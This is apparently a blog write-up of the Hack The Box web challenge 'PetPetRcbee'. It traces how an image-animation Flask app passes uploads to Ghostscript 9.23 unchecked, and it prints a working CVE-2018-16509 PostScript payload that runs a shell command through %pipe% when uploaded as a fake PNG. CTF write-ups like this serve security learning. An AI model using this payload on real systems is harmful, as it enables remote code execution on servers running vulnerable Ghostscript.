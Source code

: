 +++
title = "Hack The Box - PetPetRcbee"
tags = [
    "ctf"
]
date = "2022-09-13"
toc = true
+++

# Premise

PetPetRcbee is a `Web` challenge from Hack The Box that presents itself as a website which will take an image and animate it. Unlike many other challenges, you may be able to solve this one without ever actually looking at the site or seeing how it works...

# The setup

This is a Flask application using Pillow and Ghostscript (9.23 - remember this) as the basis for its functionality. The overall source code is quite minimal, so review is easy. 

Two things jump out here:

1) Ghostscript 9.23 is ancient, having come out over 4 years ago. This is prime vulnerable software territory.
2) Reviewing the code shows that uploaded files are passed along to Ghostscript with no validation beyond the file extension.

The intent here seems pretty clear - find a way to exploit Ghostscript with an arbitrary file upload.

# Ghost in the shellcode

Welp, this one is straight forward. Google for `Ghostscript 9.23 exploit` and you'll wind up with [CVE-2018-16509](https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509). This works pretty much out of the box, all you need to do is update the path, and since it's a whitebox challenge you know exactly where it'll land:

Let's fire it up and test out the exploit above:

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag >> /app/application/static/petpets/flag.txt) currentdevice putdeviceprops
```

Save that as `pwn.png` and upload it to the service.

Voila, the flag is then accessible at `http://host:port/static/petpets/flag.txt`.

GG, though I will say this one was a bit too easy.
